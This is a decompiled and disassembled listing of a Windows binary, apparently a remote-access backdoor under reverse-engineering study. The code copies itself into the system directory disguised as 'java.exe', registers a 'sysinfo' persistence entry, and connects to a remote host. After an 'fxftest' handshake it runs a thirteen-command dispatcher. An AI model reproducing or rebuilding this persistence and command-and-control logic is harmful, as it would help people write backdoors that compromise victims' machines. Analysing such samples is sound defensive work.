  *(undefined1 *)((int)puVar12 + 2) = 0;
  local_28 = 0x50;
  GetModuleFileNameA((HMODULE)0x0,(LPSTR)&local_37c,0x100);
  GetSystemDirectoryA((LPSTR)&local_22c,0x100);
  GetUserNameA(local_27c,&local_28);
  uVar7 = 0xffffffff;
  pcVar10 = &DAT_0040a140;
  do {
    pcVar11 = pcVar10;
    if (uVar7 == 0) break;
    uVar7 = uVar7 - 1;
    pcVar11 = pcVar10 + 1;
    cVar1 = *pcVar10;
    pcVar10 = pcVar11;
  } while (cVar1 != '\0');
  uVar7 = ~uVar7;
  local_22b._0_1_ = 0;
  iVar3 = -1;
  pbVar9 = &local_22c;
  do {
    pbVar5 = pbVar9;
    if (iVar3 == 0) break;
    iVar3 = iVar3 + -1;
    pbVar5 = pbVar9 + 1;
    bVar2 = *pbVar9;
    pbVar9 = pbVar5;
  } while (bVar2 != 0);
  pbVar9 = (byte *)(pcVar11 + -uVar7);
  pbVar5 = pbVar5 + -1;
  for (uVar8 = uVar7 >> 2; uVar8 != 0; uVar8 = uVar8 - 1) {
    *(undefined4 *)pbVar5 = *(undefined4 *)pbVar9;
    pbVar9 = pbVar9 + 4;
    pbVar5 = pbVar5 + 4;
  }
  for (uVar7 = uVar7 & 3; uVar7 != 0; uVar7 = uVar7 - 1) {
    *pbVar5 = *pbVar9;
    pbVar9 = pbVar9 + 1;
    pbVar5 = pbVar5 + 1;
  }
  uVar7 = 0xffffffff;
  pcVar10 = local_27c;
  do {
    pcVar11 = pcVar10;
    if (uVar7 == 0) break;
    uVar7 = uVar7 - 1;
    pcVar11 = pcVar10 + 1;
    cVar1 = *pcVar10;
    pcVar10 = pcVar11;
  } while (cVar1 != '\0');
  uVar7 = ~uVar7;
  iVar3 = -1;
  pbVar9 = &local_22c;
  do {
    pbVar5 = pbVar9;
    if (iVar3 == 0) break;
    iVar3 = iVar3 + -1;
    pbVar5 = pbVar9 + 1;
    bVar2 = *pbVar9;
    pbVar9 = pbVar5;
  } while (bVar2 != 0);
  pbVar9 = (byte *)(pcVar11 + -uVar7);
  pbVar5 = pbVar5 + -1;
  for (uVar8 = uVar7 >> 2; uVar8 != 0; uVar8 = uVar8 - 1) {
    *(undefined4 *)pbVar5 = *(undefined4 *)pbVar9;
    pbVar9 = pbVar9 + 4;
    pbVar5 = pbVar5 + 4;
  }
  for (uVar7 = uVar7 & 3; uVar7 != 0; uVar7 = uVar7 - 1) {
    *pbVar5 = *pbVar9;
    pbVar9 = pbVar9 + 1;
    pbVar5 = pbVar5 + 1;
  }
  uVar7 = 0xffffffff;
  pcVar10 = s_\java.exe_0040a134;
  do {
    pcVar11 = pcVar10;
    if (uVar7 == 0) break;
    uVar7 = uVar7 - 1;
    pcVar11 = pcVar10 + 1;
    cVar1 = *pcVar10;
    pcVar10 = pcVar11;
  } while (cVar1 != '\0');
  uVar7 = ~uVar7;
  iVar3 = -1;
  pbVar9 = &local_22c;
  do {
    pbVar5 = pbVar9;
    if (iVar3 == 0) break;
    iVar3 = iVar3 + -1;
    pbVar5 = pbVar9 + 1;
    bVar2 = *pbVar9;
    pbVar9 = pbVar5;
  } while (bVar2 != 0);
  pbVar9 = (byte *)(pcVar11 + -uVar7);
  pbVar5 = pbVar5 + -1;
  for (uVar8 = uVar7 >> 2; uVar8 != 0; uVar8 = uVar8 - 1) {
    *(undefined4 *)pbVar5 = *(undefined4 *)pbVar9;
    pbVar9 = pbVar9 + 4;
    pbVar5 = pbVar5 + 4;
  }
  pbVar4 = &local_37c;
  for (uVar7 = uVar7 & 3; uVar7 != 0; uVar7 = uVar7 - 1) {
    *pbVar5 = *pbVar9;
    pbVar9 = pbVar9 + 1;
    pbVar5 = pbVar5 + 1;
  }
  pbVar9 = &local_22c;
  do {
    bVar2 = *pbVar4;
    bVar13 = bVar2 < *pbVar9;
    if (bVar2 != *pbVar9) {
LAB_00401459:
      iVar3 = (1 - (uint)bVar13) - (uint)(bVar13 != 0);
      goto LAB_0040145e;
    }
    if (bVar2 == 0) break;
    bVar2 = pbVar4[1];
    bVar13 = bVar2 < pbVar9[1];
    if (bVar2 != pbVar9[1]) goto LAB_00401459;
    pbVar4 = pbVar4 + 2;
    pbVar9 = pbVar9 + 2;
  } while (bVar2 != 0);
  iVar3 = 0;
LAB_0040145e:
  if (iVar3 != 0) {
    CopyFileA((LPCSTR)&local_37c,(LPCSTR)&local_22c,0);
    FUN_004012a0(s_sysinfo_0040a040,&local_22c);
  }
  FUN_004011b0();
  FUN_004011e0();
  FUN_00401230(&DAT_0040ab9c);
  uVar7 = 0xffffffff;
  pcVar10 = &DAT_0040aa9c;
  do {
    pcVar11 = pcVar10;
    if (uVar7 == 0) break;
    uVar7 = uVar7 - 1;
    pcVar11 = pcVar10 + 1;
    cVar1 = *pcVar10;
    pcVar10 = pcVar11;
  } while (cVar1 != '\0');
  uVar7 = ~uVar7;
  pcVar10 = pcVar11 + -uVar7;
  pcVar11 = local_57c;
  for (uVar8 = uVar7 >> 2; uVar8 != 0; uVar8 = uVar8 - 1) {
    *(undefined4 *)pcVar11 = *(undefined4 *)pcVar10;
    pcVar10 = pcVar10 + 4;
    pcVar11 = pcVar11 + 4;
  }
  DAT_0040a0c0 = 0;
  for (uVar7 = uVar7 & 3; uVar7 != 0; uVar7 = uVar7 - 1) {
    *pcVar11 = *pcVar10;
    pcVar10 = pcVar10 + 1;
    pcVar11 = pcVar11 + 1;
  }
  uVar7 = 0xffffffff;
  pcVar10 = &DAT_0040ab9c;
  do {
    pcVar11 = pcVar10;
    if (uVar7 == 0) break;
    uVar7 = uVar7 - 1;
    pcVar11 = pcVar10 + 1;
    cVar1 = *pcVar10;
    pcVar10 = pcVar11;
  } while (cVar1 != '\0');
  uVar7 = ~uVar7;
  pcVar10 = pcVar11 + -uVar7;
  pcVar11 = local_47c;
  for (uVar8 = uVar7 >> 2; uVar8 != 0; uVar8 = uVar8 - 1) {
    *(undefined4 *)pcVar11 = *(undefined4 *)pcVar10;
    pcVar10 = pcVar10 + 4;
    pcVar11 = pcVar11 + 4;
  }
  for (uVar7 = uVar7 & 3; uVar7 != 0; uVar7 = uVar7 - 1) {
    *pcVar11 = *pcVar10;
    pcVar10 = pcVar10 + 1;
    pcVar11 = pcVar11 + 1;
  }
LAB_00401507:
  if (DAT_0040a0c0 != 0) {
    Ordinal_116();
    ExceptionList = local_10;
    return 0;
  }
  local_8 = 0;
  do {
    iVar3 = Ordinal_52(&DAT_0040aca8);
    if (iVar3 == 0) {
      Sleep(30000);
    }
    iVar3 = Ordinal_52(&DAT_0040aca8);
    if (iVar3 == 0) goto LAB_00401597;
    pbVar5 = (byte *)Ordinal_12(*(undefined4 *)**(undefined4 **)(iVar3 + 0xc));
    pbVar4 = &DAT_0040a128;
    pbVar9 = pbVar5;
    do {
      bVar2 = *pbVar9;
      bVar13 = bVar2 < *pbVar4;
      if (bVar2 != *pbVar4) {
LAB_0040157d:
        iVar6 = (1 - (uint)bVar13) - (uint)(bVar13 != 0);
        goto LAB_00401582;
      }
      if (bVar2 == 0) break;
      bVar2 = pbVar9[1];
      bVar13 = bVar2 < pbVar4[1];
      if (bVar2 != pbVar4[1]) goto LAB_0040157d;
      pbVar9 = pbVar9 + 2;
      pbVar4 = pbVar4 + 2;
    } while (bVar2 != 0);
    iVar6 = 0;
LAB_00401582:
    if (iVar6 != 0) break;
    Sleep(30000);
  } while( true );
  if (iVar3 == 0) {
LAB_00401597:
    local_8 = 0xffffffff;
  }
  else {
    DAT_0040aa80 = Ordinal_23(2,1,0);
    if (DAT_0040aa80 == -1) {
      Sleep(30000);
      local_8 = 0xffffffff;
    }
    else {
      _DAT_0040aa70 = 2;
      _DAT_0040aa72 = Ordinal_9(DAT_0040aa98);
      _DAT_0040aa74 = Ordinal_11(pbVar5);
      iVar3 = Ordinal_4(DAT_0040aa80,&DAT_0040aa70,0x10);
      if (iVar3 == -1) {
        Ordinal_3(DAT_0040aa80);
        Sleep(30000);
        local_8 = 0xffffffff;
      }
      else {
        local_24[0] = s_fxftest_0040a120[0];
        local_24[1] = s_fxftest_0040a120[1];
        local_24[2] = s_fxftest_0040a120[2];
        local_24[3] = s_fxftest_0040a120[3];
        local_20[0] = s_fxftest_0040a120[4];
        local_20[1] = s_fxftest_0040a120[5];
        local_20[2] = s_fxftest_0040a120[6];
        local_20[3] = s_fxftest_0040a120[7];
        uVar7 = 0xffffffff;
        pcVar10 = local_24;
        do {
          if (uVar7 == 0) break;
          uVar7 = uVar7 - 1;
          cVar1 = *pcVar10;
          pcVar10 = pcVar10 + 1;
        } while (cVar1 != '\0');
        local_1c[1] = '\0';
        local_1c[2] = '\0';
        local_1c[3] = '\0';
        local_1c[4] = '\0';
        local_1c[5] = '\0';
        local_1c[6] = '\0';
        local_1c[0] = '\0';
        local_1c[7] = 0;
        Ordinal_19(DAT_0040aa80,local_24,~uVar7 - 1,0);
        Ordinal_16(DAT_0040aa80,local_1c,8,0);
        iVar3 = _strncmp(local_1c,local_24,7);
        if (iVar3 == 0) {
          pcVar10 = local_57c;
          uVar14 = 0x200;
          iVar3 = DAT_0040aa80;
          Ordinal_19();
          while( true ) {
            puVar12 = &local_12c;
            for (iVar6 = 0x41; iVar6 != 0; iVar6 = iVar6 + -1) {
              *puVar12 = 0;
              puVar12 = puVar12 + 1;
            }
            if ((DAT_0040a0c0 != 0) ||
               (iVar6 = Ordinal_16(DAT_0040aa80,&local_12c,0x104,0), iVar6 < 1)) break;
            switch(local_12c) {
            case 1:
              FUN_004018c0(DAT_0040aa80);
              break;
            case 2:
              FUN_00401a20(DAT_0040aa80,local_128);
              break;
            case 3:
              FUN_00402050(DAT_0040aa80,local_128);
              break;
            case 4:
              FUN_004020a0(DAT_0040aa80,local_128);
              break;
            case 5:
              FUN_004020f0(DAT_0040aa80);
              break;
            case 6:
              FUN_00402210(DAT_0040aa80,local_128);
              break;
            case 7:
              FUN_00402310();
              break;
            case 8:
              FUN_00402440(local_128,DAT_0040aa80,(byte *)local_128);
              break;
            case 9:
              FUN_00402490(DAT_0040aa80,iVar3,pcVar10,uVar14);
              break;
            case 10:
              FUN_00402660();
              break;
            case 0xb:
              FUN_00402620(DAT_0040aa80);
              break;
            case 0xc:
              FUN_00402880(DAT_0040aa80);
              break;
            case 0xd:
              FUN_004028c0(DAT_0040aa80,local_128);
            }
          }
          Ordinal_3(DAT_0040aa80);
          local_8 = 0xffffffff;
        }
        else {
          local_8 = 0xffffffff;
        }
      }
    }
  }
  goto LAB_00401507;
}


                             **************************************************************
                             *                          FUNCTION                          *
                             **************************************************************
                             undefined4 __stdcall FUN_004012f0(void)
                               assume FS_OFFSET = 0xffdff000
             undefined4        EAX:4          <RETURN>
             undefined4        Stack[-0x8]:4  local_8                                 XREF[6]:     00401514(W),
                                                                                                   00401597(W),
                                                                                                   004015c6(W),
                                                                                                   00401626(W),
                                                                                                   0040169c(W),
                                                                                                   00401858(W)
             undefined4        Stack[-0x10]:4 local_10                                XREF[1]:     00401871(R)
             undefined4        Stack[-0x14]:4 local_14                                XREF[1]:     00401311(W)
             undefined1        Stack[-0x15]:1 local_15                                XREF[1]:     0040166b(W)
             undefined2        Stack[-0x17]:2 local_17                                XREF[1]:     00401655(W)
             undefined4        Stack[-0x1b]:4 local_1b                                XREF[1]:     0040164a(W)
             undefined1        Stack[-0x1c]:1 local_1c                                XREF[3]:     00401667(W),
                                                                                                   0040167d(*),
                                                                                                   0040168b(*)
             undefined4        Stack[-0x20]:4 local_20                                XREF[1]:     0040163c(W)
             undefined4        Stack[-0x24]:4 local_24                                XREF[4]:     00401639(W),
                                                                                                   0040163f(*),
                                                                                                   00401662(*),
                                                                                                   00401686(*)
             undefined4        Stack[-0x28]:4 local_28                                XREF[2]:     00401361(W),
                                                                                                   00401380(*)
             undefined1        Stack[-0x128   local_128                               XREF[7]:     00401721(*),
                                                                                                   00401738(*),
                                                                                                   00401753(*),
                                                                                                   00401781(*),
                                                                                                   004017af(*),
                                                                                                   004017dd(*),
                                                                                                   0040181e(*)
             undefined4        Stack[-0x12c   local_12c                               XREF[3]:     004016c2(*),
                                                                                                   004016de(*),
                                                                                                   004016f5(R)
             undefined1        Stack[-0x22b   local_22b                               XREF[3]:     00401341(*),
                                                                                                   004013a7(W),
                                                                                                   00401442(R)
             undefined1        Stack[-0x22c   local_22c                               XREF[9]:     00401347(W),
                                                                                                   0040136e(*),
                                                                                                   0040139b(*),
                                                                                                   004013c3(*),
                                                                                                   004013f2(*),
                                                                                                   0040142b(*),
                                                                                                   00401433(*),
                                                                                                   00401462(*),
                                                                                                   00401478(*)
             undefined1        Stack[-0x27c   local_27c                               XREF[2]:     00401383(*),
                                                                                                   004013ce(*)
             undefined1        Stack[-0x37b   local_37b                               XREF[2]:     00401328(*),
                                                                                                   0040143f(R)
             undefined1        Stack[-0x37c   local_37c                               XREF[5]:     0040132e(W),
                                                                                                   00401353(*),
                                                                                                   00401420(*),
                                                                                                   00401431(*),
                                                                                                   0040146a(*)
             undefined1        Stack[-0x47c   local_47c                               XREF[1]:     004014c9(*)
             undefined1        Stack[-0x57c   local_57c                               XREF[2]:     004014bd(*),
                                                                                                   004016ac(*)
                             FUN_004012f0                                    XREF[1]:     entry:004035de(c)
        004012f0 55              PUSH       EBP
        004012f1 8b ec           MOV        EBP,ESP
        004012f3 6a ff           PUSH       -0x1
        004012f5 68 b0 81        PUSH       LAB_004081b0
                 40 00
        004012fa 64 a1 00        MOV        EAX,FS:[0x0]=>ExceptionList                      = 00000000
                 00 00 00
        00401300 50              PUSH       EAX
        00401301 64 89 25        MOV        dword ptr FS:[0x0]=>ExceptionList,ESP            = 00000000
                 00 00 00 00
        00401308 81 ec 70        SUB        ESP,0x570
                 05 00 00
        0040130e 53              PUSH       EBX
        0040130f 56              PUSH       ESI
        00401310 57              PUSH       EDI
        00401311 89 65 f0        MOV        dword ptr [EBP + local_14],ESP
        00401314 e8 07 fd        CALL       FUN_00401020                                     undefined4 FUN_00401020(void)
                 ff ff
        00401319 85 c0           TEST       EAX,EAX
        0040131b 0f 84 50        JZ         LAB_00401871
                 05 00 00
        00401321 b9 3f 00        MOV        ECX,0x3f
                 00 00
        00401326 33 c0           XOR        EAX,EAX
        00401328 8d bd 89        LEA        EDI=>local_37b,[EBP + 0xfffffc89]
                 fc ff ff
        0040132e c6 85 88        MOV        byte ptr [EBP + local_37c],0x0
                 fc ff ff 00
        00401335 f3 ab           STOSD.REP  ES:EDI
        00401337 66 ab           STOSW      ES:EDI
        00401339 aa              STOSB      ES:EDI
        0040133a b9 3f 00        MOV        ECX,0x3f
                 00 00
        0040133f 33 c0           XOR        EAX,EAX
        00401341 8d bd d9        LEA        EDI=>local_22b,[EBP + 0xfffffdd9]
                 fd ff ff
        00401347 c6 85 d8        MOV        byte ptr [EBP + local_22c],0x0
                 fd ff ff 00
        0040134e f3 ab           STOSD.REP  ES:EDI
        00401350 66 ab           STOSW      ES:EDI
        00401352 aa              STOSB      ES:EDI
        00401353 8d 85 88        LEA        EAX=>local_37c,[EBP + 0xfffffc88]
                 fc ff ff
        00401359 68 00 01        PUSH       0x100
                 00 00
        0040135e 50              PUSH       EAX
        0040135f 6a 00           PUSH       0x0
        00401361 c7 45 dc        MOV        dword ptr [EBP + local_28],0x50
                 50 00 00 00
        00401368 ff 15 8c        CALL       dword ptr [->KERNEL32.DLL::GetModuleFileNameA]   = 00009844
                 90 40 00
        0040136e 8d 8d d8        LEA        ECX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        00401374 68 00 01        PUSH       0x100
                 00 00
        00401379 51              PUSH       ECX
        0040137a ff 15 48        CALL       dword ptr [->KERNEL32.DLL::GetSystemDirectoryA]  = 0000987a
                 90 40 00
        00401380 8d 55 dc        LEA        EDX=>local_28,[EBP + -0x24]
        00401383 8d 85 88        LEA        EAX=>local_27c,[EBP + 0xfffffd88]
                 fd ff ff
        00401389 52              PUSH       EDX
        0040138a 50              PUSH       EAX
        0040138b ff 15 0c        CALL       dword ptr [->ADVAPI32.DLL::GetUserNameA]         = 00009a74
                 90 40 00
        00401391 83 c9 ff        OR         ECX,0xffffffff
        00401394 bf 40 a1        MOV        EDI,s_:\DOCUME~1\_0040a140                       = ":\\DOCUME~1\\"
                 40 00
        00401399 33 c0           XOR        EAX,EAX
        0040139b 8d 95 d8        LEA        EDX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        004013a1 f2 ae           SCASB.RE   ES:EDI
        004013a3 f7 d1           NOT        ECX
        004013a5 2b f9           SUB        EDI,ECX
        004013a7 c6 85 d9        MOV        byte ptr [EBP + local_22b],0x0
                 fd ff ff 00
        004013ae 8b f7           MOV        ESI,EDI
        004013b0 8b d9           MOV        EBX,ECX
        004013b2 8b fa           MOV        EDI,EDX
        004013b4 83 c9 ff        OR         ECX,0xffffffff
        004013b7 f2 ae           SCASB.RE   ES:EDI
        004013b9 8b cb           MOV        ECX,EBX
        004013bb 4f              DEC        EDI
        004013bc c1 e9 02        SHR        ECX,0x2
        004013bf f3 a5           MOVSD.REP  ES:EDI,ESI
        004013c1 8b cb           MOV        ECX,EBX
        004013c3 8d 95 d8        LEA        EDX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        004013c9 83 e1 03        AND        ECX,0x3
        004013cc f3 a4           MOVSB.REP  ES:EDI,ESI
        004013ce 8d bd 88        LEA        EDI=>local_27c,[EBP + 0xfffffd88]
                 fd ff ff
        004013d4 83 c9 ff        OR         ECX,0xffffffff
        004013d7 f2 ae           SCASB.RE   ES:EDI
        004013d9 f7 d1           NOT        ECX
        004013db 2b f9           SUB        EDI,ECX
        004013dd 8b f7           MOV        ESI,EDI
        004013df 8b d9           MOV        EBX,ECX
        004013e1 8b fa           MOV        EDI,EDX
        004013e3 83 c9 ff        OR         ECX,0xffffffff
        004013e6 f2 ae           SCASB.RE   ES:EDI
        004013e8 8b cb           MOV        ECX,EBX
        004013ea 4f              DEC        EDI
        004013eb c1 e9 02        SHR        ECX,0x2
        004013ee f3 a5           MOVSD.REP  ES:EDI,ESI
        004013f0 8b cb           MOV        ECX,EBX
        004013f2 8d 95 d8        LEA        EDX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        004013f8 83 e1 03        AND        ECX,0x3
        004013fb f3 a4           MOVSB.REP  ES:EDI,ESI
        004013fd bf 34 a1        MOV        EDI,s_\java.exe_0040a134                         = "\\java.exe"
                 40 00
        00401402 83 c9 ff        OR         ECX,0xffffffff
        00401405 f2 ae           SCASB.RE   ES:EDI
        00401407 f7 d1           NOT        ECX
        00401409 2b f9           SUB        EDI,ECX
        0040140b 8b f7           MOV        ESI,EDI
        0040140d 8b d9           MOV        EBX,ECX
        0040140f 8b fa           MOV        EDI,EDX
        00401411 83 c9 ff        OR         ECX,0xffffffff
        00401414 f2 ae           SCASB.RE   ES:EDI
        00401416 8b cb           MOV        ECX,EBX
        00401418 4f              DEC        EDI
        00401419 c1 e9 02        SHR        ECX,0x2
        0040141c f3 a5           MOVSD.REP  ES:EDI,ESI
        0040141e 8b cb           MOV        ECX,EBX
        00401420 8d 85 88        LEA        EAX=>local_37c,[EBP + 0xfffffc88]
                 fc ff ff
        00401426 83 e1 03        AND        ECX,0x3
        00401429 f3 a4           MOVSB.REP  ES:EDI,ESI
        0040142b 8d b5 d8        LEA        ESI=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
                             LAB_00401431                                    XREF[1]:     00401453(j)
        00401431 8a 10           MOV        DL,byte ptr [EAX]=>local_37c
        00401433 8a 1e           MOV        BL,byte ptr [ESI]=>local_22c
        00401435 8a ca           MOV        CL,DL
        00401437 3a d3           CMP        DL,BL
        00401439 75 1e           JNZ        LAB_00401459
        0040143b 84 c9           TEST       CL,CL
        0040143d 74 16           JZ         LAB_00401455
        0040143f 8a 50 01        MOV        DL,byte ptr [EAX + local_37b]
        00401442 8a 5e 01        MOV        BL,byte ptr [ESI + local_22b]
        00401445 8a ca           MOV        CL,DL
        00401447 3a d3           CMP        DL,BL
        00401449 75 0e           JNZ        LAB_00401459
        0040144b 83 c0 02        ADD        EAX,0x2
        0040144e 83 c6 02        ADD        ESI,0x2
        00401451 84 c9           TEST       CL,CL
        00401453 75 dc           JNZ        LAB_00401431
                             LAB_00401455                                    XREF[1]:     0040143d(j)
        00401455 33 c0           XOR        EAX,EAX
        00401457 eb 05           JMP        LAB_0040145e
                             LAB_00401459                                    XREF[2]:     00401439(j), 00401449(j)
        00401459 1b c0           SBB        EAX,EAX
        0040145b 83 d8 ff        SBB        EAX,-0x1
                             LAB_0040145e                                    XREF[1]:     00401457(j)
        0040145e 85 c0           TEST       EAX,EAX
        00401460 74 2a           JZ         LAB_0040148c
        00401462 8d 85 d8        LEA        EAX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        00401468 6a 00           PUSH       0x0
        0040146a 8d 8d 88        LEA        ECX=>local_37c,[EBP + 0xfffffc88]
                 fc ff ff
        00401470 50              PUSH       EAX
        00401471 51              PUSH       ECX
        00401472 ff 15 7c        CALL       dword ptr [->KERNEL32.DLL::CopyFileA]            = 0000986e
                 90 40 00
        00401478 8d 95 d8        LEA        EDX=>local_22c,[EBP + 0xfffffdd8]
                 fd ff ff
        0040147e 52              PUSH       EDX
        0040147f 68 40 a0        PUSH       s_sysinfo_0040a040                               = "sysinfo"
                 40 00
        00401484 e8 17 fe        CALL       FUN_004012a0                                     undefined4 FUN_004012a0(LPCSTR p
                 ff ff
        00401489 83 c4 08        ADD        ESP,0x8
                             LAB_0040148c                                    XREF[1]:     00401460(j)
        0040148c e8 1f fd        CALL       FUN_004011b0                                     bool FUN_004011b0(void)
                 ff ff
        00401491 68 9c ab        PUSH       DAT_0040ab9c
                 40 00
        00401496 e8 45 fd        CALL       FUN_004011e0                                     undefined FUN_004011e0(void)
                 ff ff
        0040149b 68 9c aa        PUSH       DAT_0040aa9c
                 40 00
        004014a0 68 9c ab        PUSH       DAT_0040ab9c
                 40 00
        004014a5 e8 86 fd        CALL       FUN_00401230                                     undefined4 FUN_00401230(undefine
                 ff ff
        004014aa bf 9c aa        MOV        EDI,DAT_0040aa9c
                 40 00
        004014af 83 c9 ff        OR         ECX,0xffffffff
        004014b2 33 c0           XOR        EAX,EAX
        004014b4 83 c4 0c        ADD        ESP,0xc
        004014b7 f2 ae           SCASB.RE   ES:EDI
        004014b9 f7 d1           NOT        ECX
        004014bb 2b f9           SUB        EDI,ECX
        004014bd 8d 95 88        LEA        EDX=>local_57c,[EBP + 0xfffffa88]
                 fa ff ff
        004014c3 8b c1           MOV        EAX,ECX
        004014c5 8b f7           MOV        ESI,EDI
        004014c7 8b fa           MOV        EDI,EDX
        004014c9 8d 95 88        LEA        EDX=>local_47c,[EBP + 0xfffffb88]
                 fb ff ff
        004014cf c1 e9 02        SHR        ECX,0x2
        004014d2 f3 a5           MOVSD.REP  ES:EDI,ESI
        004014d4 8b c8           MOV        ECX,EAX
        004014d6 33 c0           XOR        EAX,EAX
        004014d8 83 e1 03        AND        ECX,0x3
        004014db c7 05 c0        MOV        dword ptr [DAT_0040a0c0],0x0                     = 00000001h
                 a0 40 00
                 00 00 00 00
        004014e5 f3 a4           MOVSB.REP  ES:EDI,ESI
        004014e7 bf 9c ab        MOV        EDI,DAT_0040ab9c
                 40 00
        004014ec 83 c9 ff        OR         ECX,0xffffffff
        004014ef f2 ae           SCASB.RE   ES:EDI
        004014f1 f7 d1           NOT        ECX
        004014f3 2b f9           SUB        EDI,ECX
        004014f5 8b c1           MOV        EAX,ECX
        004014f7 8b f7           MOV        ESI,EDI
        004014f9 8b fa           MOV        EDI,EDX
        004014fb c1 e9 02        SHR        ECX,0x2
        004014fe f3 a5           MOVSD.REP  ES:EDI,ESI
        00401500 8b c8           MOV        ECX,EAX
        00401502 83 e1 03        AND        ECX,0x3
        00401505 f3 a4           MOVSB.REP  ES:EDI,ESI
                             LAB_00401507                                    XREF[5]:     0040159e(j), 004015c9(j),
                                                                                          00401629(j), 0040169f(j),
                                                                                          0040185b(j)
        00401507 a1 c0 a0        MOV        EAX,[DAT_0040a0c0]                               = 00000001h
                 40 00
        0040150c 85 c0           TEST       EAX,EAX
        0040150e 0f 85 57        JNZ        LAB_0040186b
                 03 00 00
        00401514 c7 45 fc        MOV        dword ptr [EBP + local_8],0x0
                 00 00 00 00
                             LAB_0040151b                                    XREF[1]:     00401591(j)
        0040151b 8b 35 64        MOV        ESI,dword ptr [->WS2_32.DLL::Ordinal_52]         = 80000034
                 91 40 00
        00401521 68 a8 ac        PUSH       DAT_0040aca8
                 40 00
        00401526 ff d6           CALL       ESI=>WS2_32.DLL::Ordinal_52
        00401528 85 c0           TEST       EAX,EAX
        0040152a 75 0b           JNZ        LAB_00401537
        0040152c 68 30 75        PUSH       0x7530
                 00 00
        00401531 ff 15 80        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00009866
                 90 40 00
                             LAB_00401537                                    XREF[1]:     0040152a(j)
        00401537 68 a8 ac        PUSH       DAT_0040aca8
                 40 00
        0040153c ff d6           CALL       ESI=>WS2_32.DLL::Ordinal_52
        0040153e 8b f8           MOV        EDI,EAX
        00401540 85 ff           TEST       EDI,EDI
        00401542 74 53           JZ         LAB_00401597
        00401544 8b 4f 0c        MOV        ECX,dword ptr [EDI + 0xc]
        00401547 8b 11           MOV        EDX,dword ptr [ECX]
        00401549 8b 02           MOV        EAX,dword ptr [EDX]
        0040154b 50              PUSH       EAX
        0040154c ff 15 50        CALL       dword ptr [->WS2_32.DLL::Ordinal_12]             = 8000000c
                 91 40 00
        00401552 8b d8           MOV        EBX,EAX
        00401554 be 28 a1        MOV        ESI,DAT_0040a128                                 = 31h
                 40 00
                             LAB_00401559                                    XREF[1]:     00401577(j)
        00401559 8a 10           MOV        DL,byte ptr [EAX]
        0040155b 8a ca           MOV        CL,DL
        0040155d 3a 16           CMP        DL,byte ptr [ESI]=>DAT_0040a128                  = 31h
                                                                                             = "7.0.0.1"
        0040155f 75 1c           JNZ        LAB_0040157d
        00401561 84 c9           TEST       CL,CL
        00401563 74 14           JZ         LAB_00401579
        00401565 8a 50 01        MOV        DL,byte ptr [EAX + 0x1]
        00401568 8a ca           MOV        CL,DL
        0040156a 3a 56 01        CMP        DL,byte ptr [ESI + 0x1]=>DAT_0040a129            = 32h
        0040156d 75 0e           JNZ        LAB_0040157d
        0040156f 83 c0 02        ADD        EAX,0x2
        00401572 83 c6 02        ADD        ESI,0x2
        00401575 84 c9           TEST       CL,CL
        00401577 75 e0           JNZ        LAB_00401559
                             LAB_00401579                                    XREF[1]:     00401563(j)
        00401579 33 c0           XOR        EAX,EAX
        0040157b eb 05           JMP        LAB_00401582
                             LAB_0040157d                                    XREF[2]:     0040155f(j), 0040156d(j)
        0040157d 1b c0           SBB        EAX,EAX
        0040157f 83 d8 ff        SBB        EAX,-0x1
                             LAB_00401582                                    XREF[1]:     0040157b(j)
        00401582 85 c0           TEST       EAX,EAX
        00401584 75 0d           JNZ        LAB_00401593
        00401586 68 30 75        PUSH       0x7530
                 00 00
        0040158b ff 15 80        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00009866
                 90 40 00
        00401591 eb 88           JMP        LAB_0040151b
                             LAB_00401593                                    XREF[1]:     00401584(j)
        00401593 85 ff           TEST       EDI,EDI
        00401595 75 0c           JNZ        LAB_004015a3
                             LAB_00401597                                    XREF[1]:     00401542(j)
        00401597 c7 45 fc        MOV        dword ptr [EBP + local_8],0xffffffff
                 ff ff ff ff
        0040159e e9 64 ff        JMP        LAB_00401507
                 ff ff
                             LAB_004015a3                                    XREF[1]:     00401595(j)
        004015a3 6a 00           PUSH       0x0
        004015a5 6a 01           PUSH       0x1
        004015a7 6a 02           PUSH       0x2
        004015a9 ff 15 60        CALL       dword ptr [->WS2_32.DLL::Ordinal_23]             = 80000017
                 91 40 00
        004015af 83 ce ff        OR         ESI,0xffffffff
        004015b2 a3 80 aa        MOV        [DAT_0040aa80],EAX
                 40 00
        004015b7 3b c6           CMP        EAX,ESI
        004015b9 75 13           JNZ        LAB_004015ce
        004015bb 68 30 75        PUSH       0x7530
                 00 00
        004015c0 ff 15 80        CALL       dword ptr [->KERNEL32.DLL::Sleep]                = 00009866
                 90 40 00
        004015c6 89 75 fc        MOV        dword ptr [EBP + local_8],ESI
        004015c9 e9 39 ff        JMP        LAB_00401507
                 ff ff
                             LAB_004015ce                                    XREF[1]:     004015b9(j)
        004015ce 66 a1 98        MOV        AX,[DAT_0040aa98]
                 aa 40 00
        004015d4 66 c7 05        MOV        word ptr [DAT_0040aa70],0x2
                 70 aa 40
                 00 02 00
        004015dd 50              PUSH       EAX
        004015de ff 15 5c        CALL       dword ptr [->WS2_32.DLL::Ordinal_9]              = 80000009
                 91 40 00
        004015e4 53              PUSH       EBX
        004015e5 66 a3 72        MOV        [DAT_0040aa72],AX
                 aa 40 00
        004015eb ff 15 48        CALL       dword ptr [->WS2_32.DLL::Ordinal_11]             = 8000000b
                 91 40 00
        004015f1 8b 0d 80        MOV        ECX,dword ptr [DAT_0040aa80]
                 aa 40 00
        004015f7 6a 10           PUSH       0x10
        004015f9 68 70 aa        PUSH       DAT_0040aa70
                 40 00
        004015fe 51              PUSH       ECX
        004015ff a3 74 aa        MOV        [DAT_0040aa74],EAX
                 40 00
        00401604 ff 15 38        CALL       dword ptr [->WS2_32.DLL::Ordinal_4]              = 80000004
                 91 40 00
        0040160a 3b c6           CMP        EAX,ESI
        0040160c 75 20           JNZ        LAB_0040162e
        0040160e 8b 15 80        MOV        EDX,dword ptr [DAT_0040aa80]
                 aa 40 00
        00401614 52              PUSH       EDX
        00401615 ff 15 3c        CALL       dword ptr [->WS2_32.DLL::Ordinal_3]              = 80000003
                 91 40 00
